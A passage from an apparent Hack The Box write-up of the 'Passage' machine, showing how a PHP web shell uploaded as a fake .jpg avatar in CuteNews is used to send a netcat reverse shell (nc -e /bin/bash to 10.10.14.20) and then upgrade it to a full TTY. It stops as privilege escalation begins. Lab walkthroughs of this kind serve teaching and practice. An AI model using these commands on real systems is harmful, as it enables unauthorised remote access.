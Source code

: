 Bingo ! We have the RCE ready.

#### Step 5:  Getting Reverse Shell

Sending Reverse shell payload <http://passage.htb/CuteNews/uploads/avatar_cfx_cold.jpg.php?cfx=nc -e /bin/bash 10.10.14.20 8020>

Getting a callback on `nc` listener:

```shell
cfx:  ~/Documents/htb/passage
→ nc -lvnp 8020
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8020
Ncat: Listening on 0.0.0.0:8020
Ncat: Connection from 10.10.10.206.
Ncat: Connection from 10.10.10.206:45416.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

Upgrading to a full TTY:

```shell
python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@passage:/var/www/html/CuteNews/uploads$ ls
ls
avatar_cfx_cold.jpg.php  avatar_egre55_ykxnacpt.php  avatar_hacker_jpyoyskt.php
www-data@passage:/var/www/html/CuteNews/uploads$ stty rows 44
stty rows 44
www-data@passage:/var/www/html/CuteNews/uploads$ stty columns 190
stty columns 190
www-data@passage:/var/www/html/CuteNews/uploads$ export TERM=xterm
export TERM=xterm
www-data@passage:/var/www/html/CuteNews/uploads$ ^Z
[1]+  Stopped                 nc -lvnp 8020

cfx:  ~/Documents/htb/passage
→ stty raw -echo

cfx:  ~/Documents/htb/passage
→ nc -lvnp 8020

www-data@passage:/var/www/html/CuteNews/uploads$ ls
avatar_cfx_cold.jpg.php  avatar_egre55_ykxnacpt.php  avatar_hacker_jpyoyskt.php
```

## Elevating Priv: www-data -> paul

### Enumeration

Discovering troll files inside cdata:
